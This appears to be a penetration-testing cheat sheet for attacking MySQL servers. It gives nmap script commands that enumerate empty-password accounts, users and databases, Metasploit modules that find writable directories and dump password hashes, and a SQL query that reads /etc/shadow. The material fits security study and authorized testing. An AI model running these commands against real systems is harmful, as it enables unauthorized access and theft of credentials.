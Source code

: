 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `metasploit` to enumerate directories

- Metasploit module to enumerate writable directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/sql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
